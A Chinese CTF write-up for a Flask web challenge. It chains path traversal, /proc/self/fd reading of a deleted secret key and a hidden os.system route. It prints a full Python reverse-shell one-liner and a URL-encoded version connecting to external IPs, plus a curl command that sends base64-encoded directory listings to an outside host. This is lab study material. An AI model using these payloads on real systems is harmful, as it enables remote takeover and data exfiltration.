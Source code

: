 ##  前言	
这个题跟到wp做的，确实思路很像一个渗透过程了，值得好好学习。
##  wp
首先打开环境，F12，dirsearch和御剑都没有扫描出什么东西。然后输入一个输入框，填入抓包
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/44e21862c8984441aee77d595ae264b9.png)
有个url的GET参数，我们尝试SSRF
url=file://127.0.0.1/flag.php或者php伪协议，都没有什么反应。然后尝试目录穿越
```php
?url=../../etc/passwd
```
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/4b8f0f60bf204127a8ef07e5fb480008.png)
说明存在文件包含，目录穿越可以实现

我们知道/proc文件系统，所以我们使用目录穿越爆出文件目录
```php
?url=../../proc/self/cmdline
```
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/48f2c8be881842c4a27a732efd9380d6.png)
然后直接爆出app.py的源码

![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/4841c2ea844e435b9fb9c9aa80c9fae1.png)
```python
from flask import Flask, Response
from flask import render_template
from flask import request
import os
import urllib

app = Flask(__name__)

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)


@app.route('/')
def index():
    return render_template('search.html')


@app.route('/page')
def page():
    url = request.args.get("url")
    try:
        if not url.lower().startswith("file"):
            res = urllib.urlopen(url)
            value = res.read()
            response = Response(value, mimetype='application/octet-stream')
            response.headers['Content-Disposition'] = 'attachment; filename=beautiful.jpg'
            return response
        else:
            value = "HACK ERROR!"
    except:
        value = "SOMETHING WRONG!"
    return render_template('search.html', res=value)


@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```
进行python代码审计
有用的代码
```python

SECRET_FILE = "/tmp/secret.txt"
f = open(SECRET_FILE)
SECRET_KEY = f.read().strip()
os.remove(SECRET_FILE)

@app.route('/no_one_know_the_manager')
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res
```
首先知道了/no_one_know_the_manager页面
manager()函数中有个敏感的代码
```python
os.system(shell)
```
我们可以通过这个shell参数进行命令执行
但是需要key == SECRET_KEY。
我们就需要找到SECRET_KEY
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/8239337ed4b84a9584dc7ca07ac32275.png)
发现读取/tmp/secret.txt不成功，看到os.remove(SECRET_FILE)，说明这个文件已经删除了。
所以我们通过`/proc/self/fd/可变数字`来获得已经删除的文件内容。
进行爆破
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/570c1e74a4604268ac1b19561dde3b57.png)
发现`?url=../../proc/self/fd/3`是不同,得到
```
hFp5fd7AAAlgSMgzK7uYKv4yq0BOxauxWmJXwHCaBQY=
```
这个应该就是密匙了(密匙我重新试了一下不同)。
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/24c1960f0e7d4d63a3f74ff0fcefd61c.png)
但是没有回显ls的东西。
这儿我们就是用python反弹shell
```python
shell=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("101.35.126.83",1515));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
注意我们需要进行urlencode编码。
因为反弹shell的payload中有单引号和双引号，会影响传参。所以使用urlencode。

payload
```php
key=Goqm8uJYz9YzW8b6sO1WxEokWnaXM9TtaBoJIZa6WR4%3D&shell=python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%2242.193.170.176%22%2C10000))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22%2Fbin%2Fsh%22%2C%22-i%22%5D)%3B%27
```
注意：
![在这里插入图片描述](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/fe911b3d0801403cb758b00e2ca0a6c5.png)
还可以使用curl反弹shell
```php
?key=YBb%2FolIX5h4ChHDJYy%2BhypD0MtKjJyIs3fI3Jbma1SY%3D&shell=curl 118.***.***.***/`ls /|base64`
```
因为存在`\n`，所以我们需要base64加密。
补充：
关于python-c命令:
python -c 可以在命令行中执行 python 代码
```python
python -c "print('TTXT')"
```
但是引号不要重叠，否则会发生错误，一般使用三引号
```python
python -c '''
import arrow    
print(arrow.now())
'''
```
可以执行多行代码。
##  参考
[feng师傅的wp](https://blog.csdn.net/rfrder/article/details/112310943)
[反弹shell](https://blog.csdn.net/unexpectedthing/article/details/121234723)]
[关于/proc/self的学习](https://blog.csdn.net/unexpectedthing/article/details/121338877)
